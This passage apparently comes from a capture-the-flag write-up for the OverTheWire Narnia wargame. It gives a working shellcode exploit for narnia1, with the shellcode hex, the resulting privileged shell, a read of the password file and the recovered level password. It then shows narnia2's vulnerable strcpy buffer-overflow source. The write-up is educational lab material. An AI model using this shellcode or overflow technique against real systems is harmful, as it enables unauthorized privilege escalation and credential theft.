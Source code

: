         return 0;
    }

This urges us to put some shellcode inside the `EGG` environment variable, in 
order to be executed. Firstly, we need to find the system specifications.

    narnia1@gibson:/narnia$ uname -a
    Linux gibson 6.8.0-1010-aws #10-Ubuntu SMP Thu Jun 13 17:36:15 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux

Thus, we are looking for a x86_64 shellcode (can be found at [REF_1]).
After exporting the `EGG` variable with the correct shellcode value, and spawning `narnia1`,
one can grab a shell with `narnia2` privileges and retrieve the password for the next level.

    narnia1@gibson:/narnia$ export EGG=$(echo -ne '\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81')
    narnia1@gibson:/narnia$ ./narnia1 
    Trying to execute EGG!
    bash-5.2$ whoami
    narnia2
    bash-5.2$ cat /etc/narnia_pass/narnia2
    5agRAXeBdG

Password: **5agRAXeBdG**


## narnia2

After connecting to the specific level with `ssh` by typing
    *ssh narnia2@narnia.labs.overthewire.org -p 2226* 
with password 
    *5agRAXeBdG*

one can find the `narnia2` source code down below: 

    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>

    int main(int argc, char * argv[]){
        char buf[128];

        if(argc == 1){
            printf("Usage: %s argument\n", argv[0]);
            exit(1);
        }
        strcpy(buf,argv[1]);
        printf("%s", buf);

        return 0;
    }

The vulnerability here is obvious; `argv[1]` is the attacker input and is being 
copied unfiltered and without any length checks to `buf[128]`. With attacker 
input greater than 128, one can easily crash the program and inspect it with gdb.


[REF_1]: http://shell-storm.org/shellcode/files/shellcode-607.html
[REF_2]: https://security.stackexchange.com/questions/184842/shellcode-does-not-execute-as-the-owner
[REF_3]: https://nicolagatta.blogspot.com/2019/05/overthewireorg-narnia-level-2-writeup.html